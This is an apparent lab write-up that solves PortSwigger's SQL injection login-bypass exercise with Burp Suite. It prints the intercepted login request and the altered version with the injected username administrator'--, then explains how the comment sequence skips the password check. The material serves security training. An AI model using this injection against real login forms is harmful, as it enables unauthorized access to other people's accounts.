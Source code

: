 ```yaml
---
title: >
  Solution to `SQL injection vulnerability allowing login bypass`
---
```


The following is a solution to the lab titled ["Lab: SQL injection vulnerability allowing login bypass"](https://portswigger.net/web-security/sql-injection/lab-login-bypass).

In Burp Suite, in the Proxy tab, click **Intercept is off**. This turns Intercept on, which will capture any incoming HTTP requests.

In the user interface (UI) of the lab, attempt to log in using the username `administrator` and any password (in this case, `orange`). 

Burp Suite Proxy will capture the login attempt and show an editable HTTP request like the one below:

~~~
POST /login HTTP/2
Host: 0ad800d703f1319f80653f68009c00e5.web-security-academy.net
Cookie: session=qgW9Lfp4Nnol2ItJDXq9NnxZhlUAeg4T
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: https://0ad800d703f1319f80653f68009c00e5.web-security-academy.net
Referer: https://0ad800d703f1319f80653f68009c00e5.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=11a7DpsSQo8lKiyViRXJ1oMuidLD7zqI&username=administrator&password=orange
~~~

In the last line of the HTTP request, modify the text after `username`, adding `'--`. Note the following modified request.

~~~
POST /login HTTP/2
Host: 0ad800d703f1319f80653f68009c00e5.web-security-academy.net
Cookie: session=qgW9Lfp4Nnol2ItJDXq9NnxZhlUAeg4T
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: https://0ad800d703f1319f80653f68009c00e5.web-security-academy.net
Referer: https://0ad800d703f1319f80653f68009c00e5.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=11a7DpsSQo8lKiyViRXJ1oMuidLD7zqI&username=administrator'--&password=orange
~~~

Click **Forward** and then click **Intercept is on** (to turn off Intercept).

Navigate back to the UI. The UI should be logged in to the `administrator` account, and the lab should be marked as solved.

---

SQL Note

The unmodified request sends a SQL query with the username `administrator` and the password `orange` to the back end for authentication. This login attempt fails, since `orange` is not the correct password.

Adding `'--` after the username in the login request modifies the SQL query by instructing the server to regard everything after `'--` as a comment, thus telling the server to only check the username to give the user access to the account.
